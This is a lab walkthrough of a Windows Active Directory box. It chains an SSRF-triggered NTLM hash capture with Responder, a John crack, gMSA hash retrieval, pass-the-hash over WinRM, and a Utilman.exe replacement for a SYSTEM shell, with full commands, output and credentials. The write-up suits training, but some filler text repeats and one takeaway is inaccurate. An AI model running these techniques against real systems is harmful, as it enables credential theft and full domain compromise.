

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows (Server 2019) |
| Difficulty                | Hard |
| Attack Surface            | Web application (Werkzeug on 8080) and Active Directory |
| Primary Entry Vector      | SSRF on port 8080 -> Responder NTLM relay -> hash crack |
| Privilege Escalation Path | gMSA password retrieval -> SeRestorePrivilege -> Utilman.exe binary replacement |

## Credentials

```text
enox               california
svc_apache$         B4A3125F0CB30FCBB499D4B4EB1C20D2  (NT hash via gMSA)
```

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.165:53
Open 192.168.198.165:88
Open 192.168.198.165:135
Open 192.168.198.165:389
Open 192.168.198.165:445
Open 192.168.198.165:3389
Open 192.168.198.165:5985
Open 192.168.198.165:8080
Open 192.168.198.165:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: heist.offsec)
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http          Werkzeug httpd 2.0.1 (Python 3.9.0)
|_http-title: Super Secure Web Browser
9389/tcp  open  mc-nmf        .NET Message Framing
```

SMB, RPC, and LDAP all required authentication — no anonymous access was available. Directory brute-forcing on port 8080 returned only the main page.

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt \
  -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 \
  -x php,html,txt -u http://$ip:8080
```

```bash
200      GET      202l      346w     3608c http://192.168.198.165:8080/
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

Port 8080 hosted a "Super Secure Web Browser" application — an SSRF surface. Pointing it at the attacker's IP confirmed outbound HTTP requests from the target:

```bash
updog -p 445
```

```bash
192.168.198.165 - - [16/Mar/2026 02:48:54] "GET / HTTP/1.1" 200 -
```

With Responder listening on tun0, the SSRF was triggered again to capture an NTLMv2 hash:

```bash
sudo responder -I tun0 -wv
```

```bash
[HTTP] NTLMv2 Client   : 192.168.198.165
[HTTP] NTLMv2 Username : HEIST\enox
[HTTP] NTLMv2 Hash     : enox::HEIST:bf72a7715fafdfef:87373D7ED6C82B967606ADF844E16500:0101000000000000...
```

The hash was cracked with John:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
california       (enox)
```

WinRM access was obtained with the cracked credentials:

```bash
evil-winrm -i $ip -u enox -p california
```

```bash
*Evil-WinRM* PS C:\Users\enox\Documents>
```

```bash
*Evil-WinRM* PS C:\users\enox\desktop> type local.txt
0a7b29652d1403740c3e9f159a2f9992
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
The user `enox` was a member of the `Web Admins` group, which was authorized to retrieve the gMSA password for `svc_apache$`:

```bash
*Evil-WinRM* PS C:\> net user enox
Global Group memberships     *Web Admins           *Domain Users
```

```bash
*Evil-WinRM* PS C:\> Get-ADServiceAccount -Filter "name -eq 'svc_apache'" -Properties * | Select CN,PrincipalsAllowedToRetrieveManagedPassword
CN          : svc_apache
PrincipalsAllowedToRetrieveManagedPassword : {CN=DC01,..., CN=Web Admins,...}
```

GMSAPasswordReader.exe extracted the NT hash for `svc_apache$`:

```bash
*Evil-WinRM* PS C:\> .\GMSAPasswordReader.exe --AccountName 'svc_apache'
Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*]       rc4_hmac             : B4A3125F0CB30FCBB499D4B4EB1C20D2
```

Pass-the-Hash with the gMSA account via WinRM:

```bash
evil-winrm -i $ip -u svc_apache$ -H 'B4A3125F0CB30FCBB499D4B4EB1C20D2'
```

```bash
*Evil-WinRM* PS C:\Users\svc_apache$\Documents>
```

`svc_apache$` held `SeRestorePrivilege`, allowing arbitrary file writes to system directories. The attack replaced `Utilman.exe` with `cmd.exe`:

```bash
*Evil-WinRM* PS C:\windows\system32> ren Utilman.exe Utilman.old
*Evil-WinRM* PS C:\windows\system32> copy cmd.exe Utilman.exe
```

After connecting via RDP, pressing `Win+U` on the login screen launched a SYSTEM shell:

```bash
C:\Windows\system32> whoami
nt authority\system
```

```bash
C:\Users\Administrator\Desktop> type proof.txt
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- SSRF endpoints on internal web applications can be leveraged to capture NTLM hashes via Responder.
- gMSA passwords should only be retrievable by machine accounts — allowing human users in `PrincipalsAllowedToRetrieveManagedPassword` is a misconfiguration.
- `SeRestorePrivilege` permits overwriting protected system binaries — replace `Utilman.exe` with `cmd.exe` for a SYSTEM shell via RDP.
- Password spraying with leaked NTLMv2 hashes from SSRF is a reliable initial access vector against AD environments.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- Responder: https://github.com/lgandx/Responder
- GMSAPasswordReader: https://github.com/rvazarkar/GMSAPasswordReader
- SeRestorePrivilege Abuse: https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
